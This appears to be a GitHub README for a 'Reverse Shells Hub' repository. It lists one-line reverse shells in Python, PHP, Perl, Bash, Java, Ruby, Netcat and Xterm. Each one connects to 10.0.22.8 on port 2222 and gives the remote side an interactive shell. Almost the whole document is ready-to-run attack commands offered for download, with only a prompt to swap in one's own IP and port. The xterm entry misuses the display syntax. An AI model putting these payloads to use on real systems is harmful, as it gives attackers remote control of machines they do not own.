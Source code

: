 # Reverse_Shells_Hub - XORPIOv

![](https://github.com/XORPIOv/lib/blob/main/sharingan.png)

**Reverse Shells Hub is a repository containg reverse shells for most used languages**

Download all the Reverse Shells on Linux by the command  
```bash
git clone https://github.com/XORPIOv/reverse_shells.git
```
OR download as **ZIP FILE** for Windows or Linux

## Shells
Find the **latest versions of all the scripts in [the releases page](https://github.com/XORPIOv/reverse_shells.git)**.
## Python
```bash
# XORPIOv PYTHON SHELL | A Reverse Shell in PYTHON.
# Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv
#
# Description
# ------------
# This shell / script will allow you to make an outbound connection to local IP Address and port.
# Change IP Address && PORT to local IP && PORT.

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.22.8",2222));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
## Php
```bash
// XORPIOv PHP SHELL | A Reverse Shell in PHP.
// Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv
//
// Description
// ------------
// Change IP Address && PORT to local IP && PORT.

php -r '$sock=fsockopen("10.0.22.8",2222);exec("/bin/sh -i <&3 >&3 2>&3");'
```
## Perl
```bash
# XORPIOv PERL SHELL | A Reverse Shell in PERL.
# Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv
#
# Description
# ------------
# This shell / script will allow you to make an outbound connection to local IP Address and port.
# Change IP Address && PORT to local IP && PORT.

perl -e 'use Socket;$i="10.0.22.8";$p=2222;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
## Bash
```bash
# XORPIOv BASH SHELL | A Reverse Shell in BASH.
# Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv
#
# Description
# ------------
# This shell / script will allow you to make an outbound connection to local IP Address and port.
# Change IP Address && PORT to local IP && PORT.

bash -i >& /dev/tcp/10.0.22.8/2222 0>&1
```
## Java
```bash
/*

XORPIOv JAVA SHELL | A Reverse Shell in JAVA.
Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv

Description
------------
This shell / script will allow you to make an outbound connection to local IP Address and port.
Change IP Address && PORT to local IP && PORT.

*/

r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.22.8/2222;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
## Ruby
```bash
# XORPIOv RUBY SHELL | A Reverse Shell in RUBY.
# Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv
#
# Description
# ------------
# This shell / script will allow you to make an outbound connection to local IP Address and port.
# Change IP Address && PORT to local IP && PORT.

ruby -rsocket -e'f=TCPSocket.open("10.0.22.8",2222).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
## Netcat
```bash
# XORPIOv NETCAT SHELL | A Reverse Shell in NETCAT.
# Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv
#
# Description
# ------------
# This shell / script will allow you to make an outbound connection to local IP Address and port.
# Change IP Address && PORT to local IP && PORT.

nc -e /bin/sh 10.0.22.8 2222
```
## Xterm
```bash
# XORPIOv XTERM SHELL | A Reverse Shell in XTERM.
# Copyright (C) 2024 XORPIOv / https://github.com/XORPIOv
#
# Description
# ------------
# This shell / script will allow you to make an outbound connection to local IP Address and port.
# Change IP Address && PORT to local IP && PORT.

xterm -display 10.0.22.8:2222
```

**ReverseShellsHub** will always be updated
